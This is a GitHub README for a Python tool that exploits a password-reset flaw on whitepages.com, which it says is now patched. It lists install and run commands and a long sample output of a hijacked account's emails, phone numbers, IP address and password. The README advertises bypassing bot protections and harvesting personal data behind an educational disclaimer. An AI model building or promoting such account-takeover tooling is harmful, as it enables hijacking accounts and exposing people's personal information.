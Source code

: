 <p align="center">
  <img src="https://img.shields.io/badge/Status-Patched-red?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Language-Python-blue?style=for-the-badge" />
  <img src="https://img.shields.io/badge/PoC-Educational%20Use%20Only-orange?style=for-the-badge" />
  <br />
  <a href="https://x.com/"><img src="https://img.shields.io/badge/X Post-Click here to view-white?style=for-the-badge" /></a>
</p>

<h1 align="center">⚡ Whitepages.com Vulnerability Exploit (Patched) ⚡</h1>

<p align="center">
  <strong>⚠️ CVE-2025-XXXX | Exploit by <a href="https://t.me/Swezy">@Swezy</a></strong><br>
  <em>13. September 2025</em>
</p>

---

## 🧠 Overview

This repository contains a **Proof of Concept (PoC)** for a **patched vulnerability** on [whitepages.com](https://www.whitepages.com).  
The exploit demonstrates how an attacker **could have reset user passwords** via a vulnerable endpoint, extracting detailed account data.

> ⚠️ **This exploit no longer works.**  
> It is provided **for educational and research purposes only** to study how such flaws can occur and how to prevent them.

---

## ✨ Features

- 🧰 Automates **password reset exploit flow**
- 🌐 Uses `undetected_chromedriver` and `cloudscraper` to bypass protections
- 🔐 Secure password input handling
- 📅 Beautifully formatted timestamps and account info
- 💻 Includes **GUI** and **CLI** versions
- 🧠 Detailed output with PII (personally identifiable information)

---

## ⚙️ Requirements

- Python **3.9+**
- Google Chrome installed (for `undetected_chromedriver`)

### 🧩 Python Modules
```bash
pip install undetected-chromedriver cloudscraper python-dateutil colorama secure-input customtkinter Pillow
````

---

## 🚀 Usage

### ▶️ Command-line User Interface (CUI) Version

```bash
python main.py
```

### 🖥️ Graphical User Interface (GUI) Version

```bash
python main.py
```

You'll be prompted for the target's email address and a new password.
The script will attempt the old reset flow and display all captured PII (personally identifiable information).

---

## 🧪 Example Output

```bash
Whitepages.com Vulnerability | Telegram @Swezy

[?] Enter E-Mail ➔ example@example.com
[?] Enter new Password ➔ ***********

[*] Preparing Exploit Payload...

[*] Sending Exploit Payload...
[+] Exploit Sent Successfully [202]

[✓] Reset Password URL: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx

[*] Preparing Password Reset Exploit...

[*] Sending Password Reset Exploit...

[*] Account Details Found

[✓] Primary Email: example@example.com
[✓] Associated Emails:
    [-] Email: example@example.com
    [-] ID: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxx
    [-] User ID: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxx
    [-] Created At: 13-03-1337T13-03-37 (1337 days ago)
[✓] Password: Example
[✓] Name: Example
[✓] Full Name: Example Example Example
[✓] Associated Phone Numbers:
    [-] Phone Number: +13 37 1337 1337
    [-] ID: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxx
    [-] User ID: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxx
    [-] Created At: 13-03-1337T13-03-37 (1337 days ago)
[✓] Account ID: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxx
[✓] IP Address: xxx.xxx.xxx.xxx
[✓] User Type: expired
[✓] Login Allowed: True
[✓] Membership Type: expired
[✓] Business Features Status: none
[✓] Has Business Features: False
[✓] Has Full Property Features: False
[✓] Premium Subscriber: False
[✓] Account Created at: 13-03-1337T13-03-37 (1337 days ago)
[✓] Password Changed at: 13-03-1337T13-03-37 (1337 days ago)
[✓] Subscription Ended at: 13-03-1337T13-03-37 (1337 days ago)
[✓] Payment Edited at: 13-03-1337T13-03-37 (1337 days ago)
[✓] Premium ToS Accepted at: 13-03-1337T13-03-37 (1337 days ago)
[✓] Landlord ToS Accepted at: 13-03-1337T13-03-37 (1337 days ago)
[✓] Suspended: False
[✓] Disabled: False
[✓] Mobile: False
[✓] Industry: None
[✓] Legacy Modal: False
[✓] Auto Monitor Disabled: False
[✓] PNP Beta Opt in: False

[+] Password Reset Successfully [200]
[✓] New Password: ***********

[$] Total Time Taken: 13.37s
```

---

## ⚠️ Disclaimer

> This tool is a **Proof of Concept** created **for educational and research purposes only**.
> Do **not** use this against any live systems without **explicit authorization**.
> The author is **not responsible** for any misuse or damages caused.

---

## 🧠 Educational Purpose

This repository aims to help **security researchers** and **developers** understand:

* How insecure password reset flows can be exploited
* Why proper token validation and rate limiting are critical
* How to build secure recovery systems

---

## 📜 License

Distributed under the **MIT License**. See `LICENSE` for more information.

---

## 💬 Contact

- 📞 Telegram: [@Swezy](https://t.me/Swezy)
- 🐈‍⬛ GitHub: [@SwezyDev](https://github.com/SwezyDev)
- ✖️ X: [@Swezy_1337](https://x.com/Swezy_1337)

---

<p align="center">
  <em>🧠 Knowledge is power. Use it ethically. 🧠</em><br>
  <strong>© 2025 Swezy</strong>
</p>
